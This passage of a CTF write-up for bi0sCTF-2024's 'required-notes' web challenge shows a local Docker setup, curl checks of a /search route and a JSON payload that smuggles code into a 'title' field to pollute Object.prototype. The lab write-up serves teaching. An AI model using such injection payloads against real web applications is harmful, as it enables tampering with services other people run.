 **Then, transfer the `index.js` to the Docker container:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|13:27:39(HKT)]
└> sudo docker cp src/index.js ctf-required-notes:/app/index.js
```

**On the Docker container, run the web application using `nodejs`:**
```shell
/app # nodejs index.js 
Server running on port 3000
```

**Then, we can test the new debug route:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|13:27:41(HKT)]
└> curl http://localhost:3000/search
{"Message":"Access denied"}
```

```shell
/app # nodejs index.js 
Server running on port 3000
<ref *2> Socket {
  connecting: false,
  _hadError: false,
  _parent: null,
  [...]
```

Now, we can find out which object `req.connection`'s attribute we can pollute!

But first, let's confirm the Prototype Pollution is really exist in this web application.

To do so, I'll pollute the `Object.prototype` with a dummy attribute called `foo` to string value `bar`.

**Payload:**
```json
{"data":[{"title":"option(foobar).constructor.prototype.foo = \"bar\";optional"},{"author":"optional"}]}
```

**Before:**
```
console.log({}.foo);
undefined
```

**After polluted:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/bi0sCTF-2024/images/Pasted%20image%2020240226135155.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/bi0sCTF-2024/images/Pasted%20image%2020240226135205.png)

```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|13:50:05(HKT)]
└> curl http://localhost:3000/search
{"Message":"Access denied"}
```
